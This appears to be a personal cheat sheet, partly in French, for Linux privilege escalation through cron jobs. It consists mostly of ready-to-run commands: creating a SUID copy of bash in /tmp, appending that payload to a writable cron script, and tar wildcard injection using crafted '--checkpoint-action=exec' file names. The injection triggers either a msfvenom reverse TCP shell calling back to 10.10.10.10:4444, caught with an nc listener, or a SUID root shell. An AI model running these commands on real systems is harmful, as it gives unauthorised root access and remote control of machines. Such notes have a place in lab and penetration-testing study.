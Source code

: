 ##### ROOTBASH :
locate PATH  
make an imitating file with :
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
```
```bash
chmod +xs /tmp/rootbash
chmod +x /path/filename.sh
```
wait for the cron job executing
```bash
$ /tmp/rootbash -p
```
##### OVERWRITING CRONS
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```
wait till it executes
/tmp/bash -p


### TAR COMMAND 
Si dans un cron job une commande comme tar est run avec *   
alors elle incluera tous els fichiers selectionnés lors de l'exec.  
Si les noms des fichiers sont des options de commande correct alors   
on peut executer d'autres fichiers.  
donc :   
***quand on cat le fichier on lit blabla tar '*' :**
```bash
$ cat /usr/local/bin/compress.sh
```
REVERSE root SHELL
on créee un payload qu'on envoie avec un serv python ou en copier coller (en php par ex):
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
$ chmod +x /home/user/shell.elf
```
on cree des fichiers qui seront executés comme des <flag> de la commande tar
```bash
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```
on setup un netcat et on attend
```
$ nc -nvlp 4444
```

#### ROOTBASH
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
2. touch /home/user/--checkpoint=1
3. touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```
